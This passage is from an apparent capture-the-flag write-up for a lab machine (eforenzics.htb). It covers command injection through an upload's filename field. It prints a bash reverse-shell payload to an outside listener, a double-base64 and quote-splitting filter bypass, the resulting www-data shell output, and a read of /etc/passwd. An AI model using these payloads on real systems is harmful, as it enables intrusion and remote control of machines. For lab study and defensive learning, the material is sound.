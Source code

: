 Sure enough, the web server hangs for a good 20 seconds, suggesting we have command injection.  When trying a typical reverse shell like so:

```
filename="bash -i >& /dev/tcp/10.10.14.33/3322 0>&1 |"
```

I noticed the web server response was giving me a link to http://eforenzics.htb/analysed_images/332201.txt  (refer to the port and file descriptors above), so it appeared to be escaping & removing slashes and other characters -- thwarted!.. for now.

 Looking at [bypass-bash-restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) on HackTricks, I found a neat base64 trick and came up with:

```bash
$echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.33/3322 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0ek15OHpNekl5SURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

What does this do exactly?  It echoes our shell code into `base64` to encode it... TWICE.. then creates a string that takes our double-encoded base64 string, piping it to `base64 -d` twice to decode the string, but the `base64 -d` command is (somewhat) obfuscated with single quotes `'`.  Basically it's "let's do a whole bunch of obfuscating nothings to land on our original string in order to bypass common filtering techniques".

I tried the above in our file submission query in Burp Suite:

```
filename="echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0ek15OHpNekl5SURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h |"
```

Oh, and `${IFS}` is the Internal Field Seperator environment variable.  Used by bash for delimiting spaces in strings.

Yay, we get a reverse shell as the `www-data` user!!:

```bash
listening on [any] 3322 ...
ls -al
^Tconnect to [10.10.14.33] from (UNKNOWN) [10.10.11.197] 58426
bash: cannot set terminal process group (956): Inappropriate ioctl for device
bash: no job control in this shell
www-data@investigation:~/uploads/1676025012$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

Let's list out the users with a valid shell:

```bash
$ grep -vE "/usr/sbin/nologin|/bin/false" /etc/passwd     
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```
